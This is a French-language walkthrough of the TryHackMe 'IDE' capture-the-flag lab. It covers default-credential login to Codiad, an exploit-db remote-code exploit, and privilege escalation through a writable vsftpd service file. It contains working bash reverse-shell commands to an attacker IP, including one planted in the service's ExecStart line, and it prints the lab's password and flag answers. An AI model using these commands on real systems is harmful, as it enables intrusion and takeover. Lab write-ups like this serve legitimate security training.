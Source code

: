 # TryHackMe IDE Writeup

Je commence comme d'habitude par un scan de la box

![](Image/nmap.jpg)

4 ports ouverts : 

1. 21/ftp
2. 80/http
3. 22/ssh
4. 62337/unknown

Je commence par le serveur ftp qui nous autorise une authentification grâce au login "anonymous"

On récupère un fichier appelé "-"

![](Image/ftpFile.jpg)

On obtient deux potentiels usernames 

    john
    drac


et l'information que le mot de passe utilisé est celui par défault

En naviguant sur le serveur http j'ai affaire à une simple page apache qui nous est inutile 

Je me rends alors sur le port "62337" ou tourne "Codiad 2.8.4" qui est un ide en ligne

J'essaie l'identifiant "John" avec le mot de passe par défault "password"

Bingo me voilà connecté 

![](Image/Log%20!.jpg)

En naviguant sur le site je vais créer un projet avec l'absolute path 

    /var/www/html/codiad/xplo1t

## Exploitation

En me rendant sur : https://www.exploit-db.com/

Je trouve un exploit qui me parait intéressant pour notre cas 

https://www.exploit-db.com/exploits/50474

On y apprend que l'IDE est vulnérable à une Authenticated Remote Code vulnerability

![](Image/exploitdb.jpg)

Une fois téléchargé, il ne reste plus qu'à le lancer 

    python3 exploit.py

    python exploit.py http://target-ip/ username password kali-ip port platform

![](Image/exploitdb.jpg)

Je me rends alors sur l'url:

    http://10.10.220.48:62337/xplo1t/shell.php

On cherche un reverse shell donc je vais executer dans l'IDE
    
    bash -c 'exec bash -i &>/dev/tcp/10.9.14.188/1244 <&1'

Juste avant je lance mon listener 

    nc -lvnp 1244

![](Image/IDE.jpg)

Me voilà avec un reverse shell

![](Image/revshell.jpg)


L'étape d'après est de stabiliser le reverse shell

    which python3
    python3 -c 'import pty;pty.spawn("/bin/bash");'
    export TERM=xterm

Grâce à ça on obtien un shell plus solide qui va notamment nous donner accès à la commande "clear" et "vim"






# Privilege Escalation

On va télécharger nos script de PE sur la machine

On peut le faire en démarrant un web server python

![](Image/linpeasOnLocal.jpg)

![](Image/lseDownload.jpg)

Les Imagets ne nous sortent rien d'intéressant 

On va donc devoir énumérer la box manuellement 

On remarque que nous avons le droit de lecture sur le dossier "/home"

![](Image/drac.jpg)

    drac : Th3dRaCULa1sR3aL

![](Image/suDrac.jpg)

Il ne nous reste plus qu'à récupérer user.txt

    user : 02930d21a8eb009f6d26361b2d24a466

![](Image/flag%20user.jpg)

Avec un basique "sudo -l" on peut voir que l'user "drac" a accès au "service" binary dans le contexte ou il est root. Il peut spécifiquement "restart the vsftpd daemon as root"

![](Image/sudo-l.jpg)

On va maintenant run "linpeas.sh" pour voir si le script peut nous énumérer une vulnerabilité lié à l'user drac.

![](Image/linpeas1.webp)

![](Image/linpeas2.webp)

On peut voir qu'on a le droit d'écriture sur un fichier service. C'est notre vecteur d'attaque pour notre escalation de privilège

![](Image/vsdtpd.service.jpg)

Pour pouvoir modifier ce fichier ilest nécessaire de stabiliser notre shell pour pouvoir y acceder avec vim

    Ctrl+Z #to background the current shell
    stty raw -echo;fg

![](Image/stabilize.jpg)

On peut maintenant modifier le fichier "vstpd.service"

![](image/vsdtpd.serviceEdit.jpg)

On remplace "ExecStart=" par :

    ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.9.14.188/8080 0>&1"

Je lance mon listener 

    nc -nvlp 8080

On va maintenant redémarrer vstpd daemon 

![](Image/restart.jpg)

On regarde notre listener et bingo ! 

Nous voici avec un root shell et le flag 

![](Image/root.txt.jpg)

    root : ce258cb16f47f1c66f0b0b77f4e0fb8d






